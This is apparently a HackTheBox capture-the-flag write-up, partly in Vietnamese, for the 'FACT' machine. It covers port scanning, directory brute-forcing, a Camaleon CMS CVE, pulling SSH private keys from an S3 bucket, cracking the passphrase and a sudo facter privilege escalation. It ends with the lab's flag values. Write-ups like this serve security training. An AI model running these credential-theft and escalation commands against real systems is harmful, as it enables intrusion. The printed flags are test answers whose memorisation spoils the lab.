# HTB Write-up: FACT

<p align="center">
  <b>Machine:</b> FACT &nbsp; | &nbsp;
  <b>Difficulty:</b> Easy &nbsp; | &nbsp;
  <b>OS:</b> Linux
</p>

---

## 📌 Table of Contents

1. [Reconnaissance](#-reconnaissance)
2. [Enumeration](#-enumeration)
3. [Exploitation](#-exploitation)
4. [Cloud Pivot](#-cloud-pivot)
5. [Initial Access](#-initial-access)
6. [Privilege Escalation](#-privilege-escalation)
7. [Flags](#-flags)

---

# 🔎 Reconnaissance

## 1. Nmap TCP Full Port Scan

```bash
nmap -p- --min-rate=1000 -T4 10.129.251.182 -oN 1-tcp-allports.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 1: Full TCP port scan result</i></p>

---

## 2. Nmap UDP Full Port Scan

```bash
sudo nmap -sU -p- --min-rate=1000 10.129.251.182 -oN 3-udp-allports.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 3: UDP scan result</i></p>

---

# 🧭 Enumeration

## 3. Directory Enumeration (Gobuster)

```bash
gobuster dir -u http://facts.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,txt,html -o 4-gobuster.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 4: Directory brute-force result</i></p>

---

## 4. Admin Panel Discovery

- Truy cập: `http://facts.htb/admin`
- Phát hiện login portal

<p align="center">
  
</p>

<p align="center"><i>Figure 5: Admin login page</i></p>

---

## 5. Register & Login

- Tạo account mới
- Đăng nhập
- Xác định version CMS

<p align="center">
  
</p>

<p align="center"><i>Figure 6: CMS dashboard</i></p>

---

# 💥 Exploitation

## 6. Exploit CVE based on CMS Version

- Tra cứu thông tin Camaleon CMS 2.9.0 -> CVE-2025-2304
- Thực hiện khai thác lỗ hổng

<p align="center">
  
</p>

<p align="center"><i>Figure 7: Successful exploitation</i></p>

---

# ☁️ Cloud Pivot

## 7. Configure AWS Credentials

```bash
aws configure
```

<p align="center">
  
</p>

<p align="center"><i>Figure 8: AWS CLI configuration</i></p>

---

# ☁️ Cloud Pivot

## 8. List S3 Buckets

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal
```

<p align="center">
  
</p>

<p align="center"><i>Figure 9: Available S3 buckets</i></p>

---

## 9. Enumerate internal Bucket

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal
```

<p align="center">
  
</p>

<p align="center"><i>Figure 10: Internal bucket content</i></p>

---

## 10. Download SSH Keys

```bash
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 /home/kali/Desktop/HTB-Writeups/Easy/Facts/files/id_ed25519
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/authorized_keys /home/kali/Desktop/HTB-Writeups/Easy/Facts/files/authorized_keys
```

<p align="center">
  
</p>

<p align="center"><i>Figure 11: SSH keys downloaded</i></p>

---

# 🔐 Initial Access

## 11. Crack SSH Passphrase

```bash
python ssh2john.py id_ed25519 > pass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 12: Cracking SSH key passphrase</i></p>

---

## 12. Extract Public Key

```bash
sudo ssh-keygen -y -f id_ed25519 > id_ed25519.pub
cat id_ed25519.pub
```

<p align="center">
  
</p>

<p align="center"><i>Figure 13: Extracting public key</i></p>

---

## 13. SSH Access

```bash
sudo ssh -i id_ed25519 trivia@facts.htb
```

<p align="center">
  
</p>

<p align="center"><i>Figure 14: Initial shell access</i></p>

---

## 14. User Flag

```bash
cat ../william/user.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 15: User flag</i></p>

---

# 👑 Privilege Escalation

## 15. Root Access


[NOTE]
Facter là một công cụ được sử dụng để thu thập "thông tin" về một hệ thống, thường được sử dụng kết hợp với Puppet. Điều quan trọng là, Facter cho phép người dùng chỉ định một tham số --custom-dir mà từ đó nó sẽ tải các tập lệnh Ruby để định nghĩa các thông tin mới.

```bash
sudo -l
sudo /usr/bin/<binary>
sudo /usr/bin/facter --custom-dir /tmp
cat /root/root.txt
```

<p align="center">
  
</p>

<p align="center"><i>Figure 17: Root shell obtained & Root flag</i></p>

---

# 🏁 Flags

- **User Flag:** `ff3569e3d8669ee83b22a099262f0fe9`
- **Root Flag:** `ae91736f8b97bb4b599c489e5cd9825a`
